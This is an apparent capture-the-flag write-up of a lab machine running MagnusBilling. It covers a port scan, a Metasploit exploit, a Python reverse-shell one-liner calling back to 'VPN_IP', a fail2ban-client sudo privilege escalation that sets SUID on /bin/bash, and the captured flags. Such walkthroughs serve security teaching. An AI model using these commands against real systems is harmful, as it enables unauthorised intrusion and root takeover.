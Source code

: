 ```yaml
---
sticker: emoji//1f4b3
---
```


# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |



# RECONNAISSANCE
---


![](../images/Pasted%20image%2020250612121156.png)

Once we go to the web application, we can check this is working with something called `MagnusBilling`, we know this because a little moment before going into the web application, this loads in:

![](../images/Pasted%20image%2020250612121421.png)

**MagnusBilling** is an open-source VoIP billing and call accounting platform designed for service providers, call shops, and enterprises. It provides comprehensive solutions for call routing, rate management, user provisioning, and real-time billing. Built on a LAMP/LEMP stack, it supports integration with major VoIP protocols (SIP, IAX) and hardware, featuring web-based management, fraud detection, and multi-tenant capabilities.

If we search info related to this, we can find this exploit:

![](../images/Pasted%20image%2020250612121504.png)


![](../images/Pasted%20image%2020250612121513.png)


Based on that, let's search a module on `metasploit`:

![](../images/Pasted%20image%2020250612121650.png)

Same exploit as the one above, let's proceed with exploitation.


# EXPLOITATION
---

![](../images/Pasted%20image%2020250612121837.png)

Now, set options and run the exploit:


![](../images/Pasted%20image%2020250612121935.png)


We got our meterpreter shell, I will switch to a netcat shell for a better experience:

```
meterpreter > shell

python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("VPN_IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])'
```


![](../images/Pasted%20image%2020250612122241.png)

Let's begin privilege escalation.


# PRIVILEGE ESCALATION
---

First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](../images/Pasted%20image%2020250612122406.png)

We got a shell as `asterisk`, let's use linpeas and check what can we do to escalate our privileges:


![](../images/Pasted%20image%2020250612122904.png)

We can run `fail2ban-client` binary, in a previous machine, specifically `biteme`, a similar privilege escalation was done with this binary but in that case we could reset the service of `fail2ban`, let's check how to exploit it in this case:

![](../images/Pasted%20image%2020250612123256.png)

![](../images/Pasted%20image%2020250612123306.png)

That would work but we don't have write permissions over the `iptables.conf` file:

![](../images/Pasted%20image%2020250612123407.png)

Unfortunately, this is not the path, but, investigating further we can find this article:

Article: https://exploit--notes-hdks-org.translate.goog/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc

![](../images/Pasted%20image%2020250612123516.png)

Let's replicate the PoC:

```
# Get jail list
sudo /usr/bin/fail2ban-client status
# Choose one of the jails from the "Jail list" in the output.
sudo /usr/bin/fail2ban-client get <JAIL> actions
# Create a new action with arbitrary name (e.g. "evil")
sudo /usr/bin/fail2ban-client set <JAIL> addaction evil
# Set payload to actionban
sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"
# Trigger the action
sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5
# Now we gain a root
/bin/bash -p
```

```
asterisk@ip-10-10-24-201:/tmp$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:	8
`- Jail list:	ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

sudo /usr/bin/fail2ban-client get mbilling_ddos actions
The jail mbilling_ddos has the following actions:
iptables-allports

sudo /usr/bin/fail2ban-client set mbilling_ddos addaction evil
sudo /usr/bin/fail2ban-client set mbilling_ddos action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set mbilling_ddos banip 1.2.3.5
```

![](../images/Pasted%20image%2020250612123848.png)

As seen, we get a root shell following the PoC, let's get both flags:

```
bash-5.2# cat /home/magnus/user.txt
THM{4a6831d5f124b25eefb1e92e0f0da4ca}

bash-5.2# cat /root/root.txt
THM{33ad5b530e71a172648f424ec23fae60}
```

![](../images/Pasted%20image%2020250612124033.png)

